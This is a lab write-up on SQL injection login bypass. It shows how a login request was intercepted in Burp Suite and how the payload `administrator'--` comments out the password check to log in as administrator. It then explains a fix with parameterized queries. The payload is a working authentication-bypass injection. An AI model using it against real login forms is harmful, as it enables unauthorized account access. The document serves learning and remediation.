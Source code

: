 # SQL Injection - Login bypass

## Goal:
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

## Process

### 1. Login with random username and password
Username: user
Password: password

### 2. Intercept the login request using Burp Suite 
```http
POST /login HTTP/2
...
csrf=jlp1tF4FYmhhmdJpIEGytS4FmMLNudbB&username=user&password=password
```

### 3. Modify the username and password parameter to inject SQL
**Injected Payload:**

`csrf=lJFu1mCFnL7NMOgl664WX9YL1NddLmCW&username=administrator'--&password=''`

### 4. Explanation

`username=administrator` attempts to log in as administrator, `'` closes the string in the SQL query. `--` comments out the rest of the query and bypasses the password check.

**The SQL query becomes:**

```sql
SELECT * FROM users WHERE username = '" + username + "' --' AND password = '" + password +
```

This results in a successful login without verifying the password.

---

## How to fix this vulnerability

**Use Parameterized Queries (Prepared Statements)**

Never build SQL statements by directly concatenating user input. 

Vulnerable SQL query:
```sql
SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'
```

Safe version using prepared statements (python script):
```py
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

Parameterised query treats user input as data, which prevents injection.

---

## Reflection

- Learnt how SQL injection can bypass login by manipulating input and commenting out the password check.
- Gained insight into securing authentication logic through **proper input handling**.

---

## Notes
Different python libraries use different placeholder syntax:

sqlite3 uses `?`

mysql-connector-python, psycopg2 use `%s`

---